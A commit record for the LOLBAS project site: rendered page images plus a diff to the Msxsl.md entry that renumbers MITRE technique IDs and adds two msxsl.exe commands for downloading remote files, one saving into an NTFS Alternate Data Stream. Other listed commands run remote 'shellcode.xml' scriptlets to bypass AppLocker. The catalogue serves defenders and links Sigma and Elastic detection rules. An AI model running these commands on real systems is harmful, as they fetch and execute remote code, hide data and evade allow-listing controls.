

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/OtherMSBinaries/Msxsl.md, in a window 1280 px wide and 1400 px high, scrolled down 979 px. Shown: the top 1330 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1712 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Applying update LOLBAS-Project/LOLBAS@4ffdf0ec0b909e045e5eee4b467ebb389bdbd47a

```diff
--- a/_lolbas/OtherMSBinaries/Msxsl.md
+++ b/_lolbas/OtherMSBinaries/Msxsl.md
@@ -9,33 +9,45 @@ Commands:
     Usecase: Local execution of script stored in XSL file.
     Category: Execute
     Privileges: User
-    MitreID: T1218
+    MitreID: T1220
     OperatingSystem: Windows
   - Command: msxsl.exe customers.xml script.xsl
     Description: Run COM Scriptlet code within the script.xsl file (local).
     Usecase: Local execution of script stored in XSL file.
     Category: AWL Bypass
     Privileges: User
-    MitreID: T1218
+    MitreID: T1220
     OperatingSystem: Windows
   - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
     Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
     Usecase: Local execution of remote script stored in XSL script stored as an XML file.
     Category: Execute
     Privileges: User
-    MitreID: T1218
+    MitreID: T1220
     OperatingSystem: Windows
   - Command: msxsl.exe https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml https://raw.githubusercontent.com/3gstudent/Use-msxsl-to-bypass-AppLocker/master/shellcode.xml
     Description: Run COM Scriptlet code within the shellcode.xml(xsl) file (remote).
     Usecase: Local execution of remote script stored in XSL script stored as an XML file.
     Category: AWL Bypass
     Privileges: User
-    MitreID: T1218
+    MitreID: T1220
+    OperatingSystem: Windows
+  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>
+    Description: Using remote XML and XSL files, save the transformed XML file to disk.
+    Usecase: Download a file from the internet and save it to disk.
+    Category: Download
+    Privileges: User
+    MitreID: T1105
+    OperatingSystem: Windows
+  - Command: msxsl.exe https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/calc.xml https://raw.githubusercontent.com/RonnieSalomonsen/Use-msxsl-to-download-file/main/transform.xsl -o <filename>:ads-name
+    Description: Using remote XML and XSL files, save the transformed XML file to an Alternate Data Stream (ADS).
+    Usecase: Download a file from the internet and save it to an NTFS Alternate Data Stream.
+    Category: ADS
+    Privileges: User
+    MitreID: T1564
     OperatingSystem: Windows
 Full_Path:
   - Path: no default
-Code_Sample:
-  - Code:
 Detection:
   - Sigma: https://github.com/SigmaHQ/sigma/blob/ff0f1a0222b5100120ae3e43df18593f904c69c0/rules/windows/process_creation/win_xsl_script_processing.yml
   - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_msxsl_beacon.toml
```
Also changed, not shown: other parts of _lolbas/OtherMSBinaries/Msxsl.md (+3 -0 lines).
